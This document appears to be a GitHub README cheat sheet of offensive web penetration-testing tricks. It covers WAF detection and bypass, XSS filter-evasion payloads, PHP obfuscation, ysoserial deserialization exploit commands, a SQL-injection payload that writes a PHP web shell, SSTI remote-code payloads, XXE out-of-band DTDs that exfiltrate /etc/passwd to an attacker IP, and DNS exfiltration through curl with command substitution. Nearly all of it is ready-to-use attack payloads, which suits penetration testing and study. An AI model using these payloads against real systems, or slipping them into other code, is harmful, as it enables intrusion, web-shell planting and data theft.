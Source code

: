 # Tricks - Web Penetration Tester

- [x] In construction...

## WAF

### Detect WAF

-> Cookies

-> HTTP response messages

-> Rules

-> HTTP status code

### Tool's

-> wafw00f 

https://github.com/EnableSecurity/wafw00f

-> nmap --script=http-waf-fingerprint

https://nmap.org/nsedoc/scripts/http-waf-fingerprint.html

-> imperva-detect

https://raw.githubusercontent.com/vmfae-iscteiulpt/imperva-detect/master/imperva-detect.sh

-> bypass to find real ip in CloudFlare:

https://github.com/zidansec/CloudPeler

#### Others

https://github.com/0xInfection/Awesome-WAF

## Host Obfuscation

#### Types

-> DWORD
  
-> OCTAL 
  
-> HEX
  
-> HYBRID

### Tool

https://www.silisoftware.com/tools/ipconverter.php

## PHP Obfuscation Techniques:

### Mix - Hex + Octal

echo "t\x72\x69\143\153s";

//Tricks

### Variable Parsing

$a = "ri"; $b ="ck"; echo "T$a[0]$a[1]$b[0]$b[1]s";

//Tricks

### Variable Variables

$a = "T"; $$a = "ri"; $$$a = "cks"; echo $a.$T.$ri;

//Tricks

### PHP Non-Alphanumeric 

$\_="{"; #XOR char

echo $\_=($\_^"<").($\_^">").($\_^"/"); #XOR = GET

//GET

https://web.archive.org/web/20160516145602/http://www.thespanner.co.uk/2011/09/22/non-alphanumeric-code-in-php/

### Tools

-> phponalpha

-> phponalpha2

https://hackvertor.co.uk/public

### PHP Obfuscation - base64+gzdeflate

codes/obufscation/obfuscation.php

https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/obfuscation/obfuscation.php

# Online PHP Executor

"3v4l.org (leetspeak for eval) is an online shell that allows you to run your code on my server. I compiled more than 250 different PHP versions (every version released since 4.3.0) for you to run online."

https://3v4l.org/

## Cross-Site Scripting (Reflected, Stored, DOM, Mutation, Poliglote)

### Protection XSS

-> XSS Auditor and XSS Filter

https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xss.md

https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

https://www.chromium.org/developers/design-documents/xss-auditor/

https://portswigger.net/daily-swig/xss-protection-disappears-from-microsoft-edge

https://developer.mozilla.org/pt-BR/docs/Web/HTTP/Headers/X-XSS-Protection

-> Wordlists for XSS Bypass

https://gist.githubusercontent.com/rvrsh3ll/09a8b933291f9f98e8ec/raw/535cd1a9cefb221dd9de6965e87ca8a9eb5dc320/xxsfilterbypass.lst

https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/XSS/XSS-Bypass-Strings-BruteLogic.txt

https://raw.githubusercontent.com/payloadbox/xss-payload-list/master/Intruder/xss-payload-list.txt

https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/XSS/XSS-Cheat-Sheet-PortSwigger.txt

### XSS Keylogger

https://rapid7.com/blog/post/2012/02/21/metasploit-javascript-keylogger/

https://github.com/hadynz/xss-keylogger

### XSS Mutation

http://www.businessinfo.co.uk/labs/mxss/

### XSS Poliglote

https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

### Regex blacklist filtering

(on\w+\s*=)

<svc/onload=alert(1)>

<svg//////onload=alert(1)>

<svg id=x;onload=alert(1)>
  
<svg id=\`x\`onload=alert(1)>
  
(?i)([\s\"'`;\/0-9\=]+on\w+\s*=)
  
<svg onload%09=alert(1)>
  
<svg %09onload=alert(1)>
  
<svg %09onload%20=alert(1)>
  
<svg onload%09%20%28%2C%3B=alert(1)>
  
<svg onload%0B=alert(1)>

### Keyword based in filter
 
#### blocked - alert - bypass
  
-> <script>\u0061lert(1)</script>
  
-> <script>\u0061\u006C\u0065\u0072\u0074(1)</script>
  
-> <script>eval("\u0061lert(1)")</script>
  
-> <script>eval("\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029")</script> 
  
#### Removing HTML Tags
  
<scr<iframe>ipt>alert(1)</script>
  
### Scaping Quote
  
### Methods
  
-> String.fromCharCode()
  
-> unescape

Ex:
 
-> decode URI + unescape method
  
decodeURI(/alert(%22xss%22)/.source)
  
decodeURIComponent(/alert(%22xss%22)/.source)
  
Add execution sink for execution:
  
-> eval
  
### Escaping Parentheses
  
\<img src=x onerror="\u0061lert(1)"/>
  
\<img src=x onerror="eval('\141lert(1)')"/>

\<img src=x onerror="eval('\x61lert(1)')"/>
  
### Others Examples
  
#### HTML Tag
  
<div>
  
here
  
</div>

-> <svg/onload=alert(1)

#### HTML Tag Attributes

<input value="here"/></input>
 
-> adaa"> <a/href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=">show</!--
  
#### Script Tag
  
<script>
  
var name="here";
  
</div>
  
</script>
  
-> ;alert(1);//

#### Event Attributes

\<button onclick="reserve(here);">
  
Okay!
  
</button>

-> alert(1)

Dom Based
  
\<script>var ok = location.search.replace("?ok=", "");domE1.innerHTML = "<a href=\'"+ok+"\'>ok</a>";</script>
  
-> javascript:alert(1)

## JavaScript Encoding and Compressor:

-> jjencode, aaencode, jsfuck, Minifying

https://developers.google.com/closure/compiler/

-> Packer 

http://dean.edwards.name/packer/

## Type Juggling

https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf

### PHP - others tricks

[ eval () execute a chain whose variable $ HTTP_USER_AGENT is so just
change your header in PHP code ]

https://www.exploit-db.com/papers/13694

## Insecure Deserialization 

-> Binary

-> Human-readable

### PHP Deserialization

#### PHP - Method Serialization:

-> serialize()

-> unserialize()

#### Magic Methods:

-> __construct()

-> __destruct()

-> __wakUp()

#### Class Properties

Public \<s>
 
Ex:

O:4:"Okay":1:{s:8:"filepath";s:11:"/tmp/ok.txt";}
  
Protected \0 * \0

Ex:

O:4:"Okay":1:{s:11:"' . "\0" . '*' . "\0" . 'filepath";s:11:"/tmp/ok.txt";}

Private \0 \<s> \0

Ex:
  
O:4:"Okay":1:{s:14:"' . "\0" . 'Okay' . "\0" . 'filepath";s:11:"/tmp/ok.txt";}

codes/deserialization/example.php
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/deserialization/php/example.php
  
#### Trick Bypass

a:2:{s:8:"anything";o:4:"Okay":1:{s:8:"filepath";s:11:"/tmp/ok.txt";}}

### Tool

https://github.com/ambionics/phpggc
  
### Others 

/codes/deserialization/php/token_hmac_sha1.php
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/deserialization/php/token_hmac_sha1.php

### .NET Deserialization

#### Methods Serialization:

-> Binary Formatter

-> DataContractSerializer

-> NetDataContractSerializer

-> XML Serialization
  
#### Most common places to find serialized data

-> VIEWSTATE
    
-> .NET remoting services
  
#### Tool

https://github.com/pwntester/ysoserial.net

### Java Deserialization

#### Identify

-> import java.io.serializable

-> binary with ac ed 00 05

-> base64 starts with rO0AB in web applications
  
#### java.lang.Runtime.exec()
  
bash -c {echo,payload_base64}|{base64,-d}|{bash,-i}

https://www.bugku.net/runtime-exec-payloads/

#### Tools

https://github.com/frohoff/ysoserial

https://github.com/NickstaDB/SerializationDumper

https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java
  
#### Script
  
codes/deserialization/java/gserial.sh
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/deserialization/java/gserial.sh
  
codes/deserialization/java/payload.txt

https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/deserialization/java/payloads.txt
  
while read payload; 
  
do echo "$payload\n\n"; 
  
java -jar ysoserial.jar $payload "sleep 5" | base64 | tr -d '\n' > $payload.ser; 
  
echo "-----------------Loading-----------------\n\n"; done < payloads.txt
 
#### Signals
  
-> Bad Sign

ClassNot FoundException

-> Good Sign

java.io.IOException
  
#### JRMPClient and JRMPListener (CommonsCollections)
  
java -jar ysoserial-all.jar “JRMPClient” ip:80” |base64 -w0

java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 80 CommonsCollections “curl http://ip:port/shell.php -o /var/www/shell.php”
  
### Python Deserialization

#### Pickle
  
/codes/deserialization/python/py_pickle.py

https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/deserialization/python/py_pickle.py
  
## Cloud

http://169.254.169.254/latest/meta-data

http://169.254.169.254/latest/api/token

### Serverless Injection

echo "hi" > ok.txt && aws s3 cp ok.txt 's3://<BUCKET>/' -acl -public-read
  
### Tools

https://github.com/clarketm/s3recon
  
## XPATH
  
error()

* and doc('http://hacker.site/')
  
* and doc('http://hacker.site/', name(/*) ))
  
### Tools
  
https://xcat.readthedocs.io/en/latest/
  
### Wordlists for SQLI e XPath - Authentication Bypass

https://raw.githubusercontent.com/payloadbox/sql-injection-payload-list/master/Intruder/exploit/Auth_Bypass.txt
  
## Padding Oracle Attack
  
### Identify

-> rememberMe: (Cookie)

### Exploiting 

java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" > payload.class

https://github.com/frohoff/ysoserial

python shiro_exp.py site.com/home.jsp cookie payload.class

https://github.com/wuppp/shiro_rce_exp/blob/master/shiro_exp.py
  
## Hash Length Extension Attack

https://github.com/iagox86/hash_extender

https://site.com/index.php?file=oktest&hash=hash

./hash_extender -f sha1 --data 'oktest' -s hash --append '../../../../../../../../../etc/passwd' --secret-min=10 --secret-max=40 --out-data-format=html --table > payloads.out

burp intruder -> payloads.out in file parameter.  
  
## Insecure - Machine Key for RCE 

https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/deserialization/exploiting-__viewstate-parameter.md
  
https://github.com/pwntester/ysoserial.net
  
https://github.com/NotSoSecure/Blacklist3r/tree/master/MachineKey/AspDotNetWrapper
  
### Others Docs

https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

## Local File Inclusion - LFI

### LFI - files for fuzzing

### Wordlist LFI - Linux

https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt

### Wordlist LFI - Windows

https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt

### Payloads for bypass:

-> bypass_lfi.txt
  
### Wordlist for parameter fuzzing
  
https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt
  
### Wordlist for subdomain fuzzing
  
https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS

## SQL Injection
  
### WAF BYPASS

#### Query default:

'UNION SELECT 1, name,3,4 from users; -- -

#### Add comment /* */ for space bypass

'UNION/\*\*/SELECT/\*\*/1,name,3,4/**/from/**/users; -- -

#### Add comment /\*!\*/ in query for filters bypass

'/\*!UNION SELECT\*/ 1,group_concat(name),3,4 from users; -- -

#### Add random case

'UnIoN SeLeCt 1,GrOuP_cOnCaT(nAme),3,4 FrOm users; -- -

#### Example of mix:

'/\*!UnIoN/\*\*/SeLeCt/\*\*/\*/1,GroUp_ConCat(nAmE),3,4/\*\*/FrOm/\*\*/users; -- -

#### Others Techniques:

-> urlencode (example:%20 instead of space);
  
-> Scientifc Notation;
  
-> hexadecimal, substr, etc...
  
### Webshell via SQLI
  
' union select 1, 2, 3,"<\?php system($_GET['cmd']);\?>" into outfile "/var/www/html/pdp.php"-- -
  
### SQL Injection Second-Order (query connector)

codes/sqli_second_order/sqlitwo.php

### SQL Injection Out-Of-Band, etc

https://book.hacktricks.xyz/pentesting-web/sql-injection
  
### Tamper's SQLMAP
  
-> randomcase.py
  
-> order2ascii.py

-> xforwardedfor.py
 
### XPATH NOTATION
  
%' and extractvalue(0x0a,concat(0x0a,(select database() limit 1))) -- -
  
### Wordlist for SQL Injection - Bypass

https://gist.githubusercontent.com/zetc0de/f4146eb278805946ab064a753eac6a02/raw/e126452093b9cde7f82eff14a15f8ceca8188701/sqli-bypass-waf.txt

### Doc for SQL Injection - Bypass

https://github.com/OWASP/www-community/blob/master/pages/attacks/SQL_Injection_Bypassing_WAF.md
  
### Others
  
/codes/sqli/time-based/sqli.py
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/sqli/time-based/sqli.py
  
/codes/sqli/tampers/second-order.py

https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/sqli/tampers/second-order.py
  
## NOSQL Injection
  
https://book.hacktricks.xyz/pentesting-web/nosql-injection
  
## Graphql Introspection

https://ivangoncharov.github.io/graphql-voyager/
  
## CSRF

codes/csrf/csrf.html
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/csrf/csrf.html
  
codes/csrf/csrf_json.html
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/csrf/csrf_json.html
  
codes/csrf/csrf_json_xhr.html
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/csrf/csrf_json_xhr.html
  
codes/csrf/csrf_token_bypass.html
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/csrf/csrf_token_bypass.html
  
### Analyze the token and perform brute-force

burp intruder -> sequencer -> Token Location Within Response -> Start live capture -> save tokens

cat tokens.txt | uniq -c | nl 
  
## SSTI

### Identify

-> Jinja2 or Twig
  
{{3*3}}

-> Smarty or Mako
  
{3*3}

-> ERB(Ruby)
  
<%= 7*7 %>

-> FreeMarker
  
#{3*3}

-> Others 
    
${3*3}
  
${{3*3}}

3*3

### Java Expression Language

{{T(java.lang.Runtime).getRuntime().exec('id')}}

''.class.forName('java.lang.Runtime').getRuntime().exec('id')

### FreeMarker

\<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}

### Python - Secret Key
  
{{settings.SECRET_KEY}}
  
### Doc for SSTI	

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
  
## SSRF - Protocol Smuggling

-> HTTP-Based(Elastic, CouchDB, Mongodb, docker),etc.

-> Text-Based(ftp(21), smtp(587), zabbix(10051), mysql(3306), redis(6379), memcached(11211), etc.

curl "gopher://localhost:port"

### Scripts

codes/ssrf_protocol_smuggling/memcached.py
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/ssrf_protocol_smuggling/memcached.py 

codes/ssrf_protocol_smuggling/zabbix.py
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/ssrf_protocol_smuggling/zabbix.py

### Tool's

-> Gopher Protocol

https://datatracker.ietf.org/doc/html/rfc1436

-> Gopherus

https://github.com/tarunkant/Gopherus
  
### Scripts

codes/ssrf_protocol_smuggling/zabbix.py
  
codes/ssrf_protocol_smuggling/memcached.py
  
-> stats items
  
-> stats cachedump <slab class> <number of items to dump>
  
-> get \<item>
  
### Doc for SSRF - bhack

https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf
  
## CRLF Injection
  
/%0d%0aLocation:

/%0d%0a%0d%0a\<svg onload=(0)>

## XXE OOB
  
### XXE OOB - Exfiltrate data exfiltrating data via dtd

-> Part 1

\<!DOCTYPE r[

\<!ELEMENT r ANY>

\<!ENTITY % ult SYSTEM "http://ip/evil.dtd">

%ult;

%int;

]>

<r>&exfil;</r>

-> Part 2
  
codes/xxe/evil.dtd
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/xxe/evil.dtd
  
\<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
  
\<!ENTITY % int "\<!ENTITY exfil SYSTEM 'http://ip/?leak=%file;'>">
  
### XXE OOB to retrieve data via error messages with dtd file
  
codes/xxe/error.dtd
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/xxe/error.dtd

-> Part 1

\<!DOCTYPE foo [

\<!ENTITY % xxe SYSTEM "https://ip/evil.dtd"> 

%xxe;

%payload;

%remote;

]>

-> Part 2

\<!ENTITY % file SYSTEM "file:///etc/passwd">

\<!ENTITY % payload "\<!ENTITY &#37; remote SYSTEM 'file:///idonotexist/%file;'>">
  
### XXE OOB - XInclude to retrieve files with dtd file

\<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/>\</foo>

### XXE OOB - Image file upload

code/xxe/evil.svg

https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/xxe/evil.svg
  
\<?xml version="1.0" standalone="yes"?>\<!DOCTYPE test [ \<!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>\<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">\<text font-size="16" x="0" y="16">&xxe;\</text>\</svg>

## XSLT Server Side Injection
  
https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-languaje-transformations

## Prototype Pollution

### Client Side
  
https://github.com/BlackFan/client-side-prototype-pollution
  
### Server Side

-> exec.exec in req body with lodash - application/json
  
https://nodejs.org/api/child_process.html#child_processexeccommand-options-callback

"__proto__":{
  
  "shell":"sleep 5"
  
}
  
-> exec.fork in req body with lodash - application/json
  
https://nodejs.org/api/process.html
  
"__proto__":{
  
    "execPath":"/bin/bash",
  
    "execArgv":[
  
    "-c",
  
    "sleep 5"
  
    ]
  
  }

### Rce rce exfiltrating via dns

curl http://$(whoami).site.com/

curl http://`whoami`.site.com/

## Others tool's and things
  
### ImageTragik

codes/others/tragik.jpg
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/rce/tragik.jpg
  
### Search across a half million git repos
  
https://grep.app
  
### The Cyber Swiss Army Knife - a web app for encryption, encoding, compression and data analysis.
  
https://gchq.github.io/CyberChef/
  
### List of file signatures
  
https://en.wikipedia.org/wiki/List_of_file_signatures

### Regex 
  
https://regex101.com/
  
### Decode
  
https://malwaredecoder.com/

### Encode for SQL Injection in Json
  
https://dencode.com/string/unicode-escape
  
### Wildcard DNS

https://nip.io/
  
### Explain Shell

https://explainshell.com/
  
### Webhook online
  
https://webhook.site/#!/b3d5ed21-b58d-4a77-b19d-b7cdc2eeadc0
  
### Reverse Shell
  
https://www.revshells.com/
 
### Api Security

https://platform.42crunch.com/

